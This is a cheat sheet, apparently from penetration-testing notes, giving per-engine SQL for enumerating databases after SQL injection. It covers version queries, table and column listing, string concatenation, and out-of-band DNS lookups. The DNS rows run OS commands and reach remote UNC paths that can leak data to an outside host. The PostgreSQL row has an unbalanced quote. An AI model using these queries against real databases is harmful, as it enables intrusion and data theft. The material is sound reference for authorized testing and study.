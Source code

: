 # Database Enumeration

## Introduction

Once SQL injection has been identified, the next step is to enumerate the underlying database engine. Unfortunately, each database engine uses its own syntax for metadata, which makes this process highly engine-dependent.

### Database Version

| Database   | Version Info                                                                                    |
| ---------- | ----------------------------------------------------------------------------------------------- |
| Oracle     | <p><code>SELECT banner FROM v$version</code><br><code>SELECT version FROM v$instance</code></p> |
| Microsoft  | `SELECT @@version`                                                                              |
| PostgreSQL | `SELECT version()`                                                                              |
| MySQL      | `SELECT @@version`                                                                              |

### Database Contents

Listing tables and the columns they contain:

| Database   | Contents Info                                                                                                                                        |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | <p><code>SELECT * FROM all_tables</code><br><code>SELECT * FROM all_tab_columns WHERE table_name = 'Table Name'</code></p>                           |
| Microsoft  | <p><code>SELECT * FROM information_schema.tables</code><br><code>SELECT * FROM information_schema.columns WHERE table_name = 'Table Name'</code></p> |
| PostgreSQL | <p><code>SELECT * FROM information_schema.tables</code><br><code>SELECT * FROM information_schema.columns WHERE table_name = 'Table Name'</code></p> |
| MySQL      | <p><code>SELECT * FROM information_schema.tables</code><br><code>SELECT * FROM information_schema.columns WHERE table_name = 'Table Name'</code></p> |

## String Concatenation

| Database   | Concatenation                        |
| ---------- | ------------------------------------ |
| Oracle     | 'a'\|\|'b'                           |
| Microsoft  | 'a'+'b'                              |
| PostgreSQL | 'a'\|\|'b'                           |
| MySQL      | 'a' 'b' (space) or `CONCAT('a','b')` |

## DNS Lookups

| Database   | Lookup Syntax                                                                                                                       |
| ---------- | ----------------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | `SELECT UTL_INADDR.get_host_address('domain')` - requires elevated privileges                                                       |
| Microsoft  | `exec master..xp_dirtree '//domain/a'`                                                                                              |
| PostgreSQL | `copy (SELECT '') to program 'nslookup domain`                                                                                      |
| MySQL      | <p>These work only on Windows<br><code>LOAD_FILE('\\\\domain\\a')</code><br><code>SELECT ... INTO OUTFILE '\\\\domain\a'</code></p> |
